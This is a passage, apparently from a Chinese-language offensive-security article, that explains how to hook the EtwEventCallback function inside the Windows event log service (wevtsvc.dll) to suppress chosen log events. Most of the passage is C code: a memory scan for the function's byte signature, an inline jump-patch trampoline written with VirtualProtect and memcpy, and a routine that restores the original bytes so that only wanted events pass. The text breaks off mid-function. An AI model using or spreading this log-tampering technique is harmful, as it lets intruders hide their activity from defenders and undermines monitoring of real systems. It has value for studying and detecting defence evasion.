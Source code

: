 因为我们不知道EtwEventCallback的确切位置，需要在内存中搜索它。但是我们知道它在wevtsvc.dll的地址空间中，这就是为什么我们必须首先找到它的基址。

我们可以使用windbg中的反汇编来查看回调开始时的字节。然后我们可以扫描内存，直到找到这些字节。这样我们就知道把钩子放在哪里了。

[![](https://p0.ssl.qhimg.com/t01465aa4ea16c2dc8c.png)](https://p0.ssl.qhimg.com/t01465aa4ea16c2dc8c.png)

下面这段代码将搜索从wevtsvc.dll基址开始的的0xfffff字节，以找到4883ec384c8b0d

```
#define PATTERN "\x48\x83\xec\x38\x4c\x8b\x0d"

DWORD i;
LPVOID lpCallbackOffset;

for (i = 0; i &lt; 0xfffff; i++)
`{`
    if (!memcmp((PVOID)(dwBase + i), (unsigned char*)PATTERN, strlen(PATTERN)))
    `{`
        lpCallbackOffset = (LPVOID)(dwBase + i);
    `}`
`}`
```

一旦我们有了偏移量，我们将通过调用memcpy对其中的字节进行复制。

```
memcpy(OriginalBytes, lpCallbackOffset, 50);
```

然后用一个钩子将所有对EtwEventCallback的调用重定向到EtwCallbackHook。

```
VOID HookEtwCallback()
`{`
    DWORD oldProtect, oldOldProtect;

    unsigned char boing[] = `{` 0x49, 0xbb, 0xde, 0xad, 0xc0, 0xde, 0xde, 0xad, 0xc0, 0xde, 0x41, 0xff, 0xe3 `}`;

    *(void **)(boing + 2) = &amp;EtwCallbackHook;

    VirtualProtect(lpCallbackOffset, 13, PAGE_EXECUTE_READWRITE, &amp;oldProtect);
    memcpy(lpCallbackOffset, boing, sizeof(boing));
    VirtualProtect(lpCallbackOffset, 13, oldProtect, &amp;oldOldProtect);

    return;
`}`
```

在这里钩住回调是很好的，但是我们仍然需要它能够报告我们不想阻止的事件。这意味着我们还必须恢复并运行回调，以便它报告事件。在它报告事件之后重新钩住它，以便我们可以捕捉下一个事件。

使用typedef可以非常直接地做到这一点。

```
typedef VOID(WINAPI * EtwEventCallback_) (EVENT_RECORD *EventRecord);

VOID DoOriginalEtwCallback( EVENT_RECORD *EventRecord )
`{`
    DWORD dwOldProtect;

    VirtualProtect(lpCallbackOffset, sizeof(OriginalBytes), PAGE_EXECUTE_READWRITE, &amp;dwOldProtect);
    memcpy(lpCallbackOffset, OriginalBytes, sizeof(OriginalBytes));
    VirtualProtect(lpCallbackOffset, sizeof(OriginalBytes), dwOldProtect, &amp;dwOldProtect);

    EtwEventCallback_ EtwEventCallback = (EtwEventCallback_)lpCallbackOffset;

    EtwEventCallback(EventRecord);

```